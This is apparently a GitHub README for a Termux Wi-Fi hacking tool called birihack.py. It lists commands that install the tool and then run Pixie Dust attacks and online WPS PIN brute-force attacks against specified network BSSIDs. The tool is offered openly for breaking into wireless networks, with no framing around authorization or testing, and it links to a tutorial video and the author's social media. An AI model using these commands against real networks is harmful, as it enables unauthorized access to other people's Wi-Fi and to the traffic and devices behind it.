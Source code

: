 <h1 align="center">Hack WIfi Using Termux! (Requires Root)
</h1>
<h1 align="center">THIS TOOL MAKE BY TEAM BOT HACKER [WASIM 360]</h1>
<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

<h1 align="center">tutorial video👇 </h1>
https://www.facebook.com/share/v/YySXjik5GrfkM6tV/?mibextid=oFDknk

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/WASIM-360/Wifi_Hack
$ cd Wifi_Hack
$ chmod +x birihack.py
$ sudo python birihack.py --help
```

#### Example : `sudo python birihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://www.facebook.com/profile.php?id=100086012142332&mibextid=ZbWKwL" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="wasim360" height="30" width="40" /></a>
<a href="https://www.youtube.com/c/@wasim-360" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/youtube.svg" alt="wasim-360" height="30" width="40" /></a>
</p>
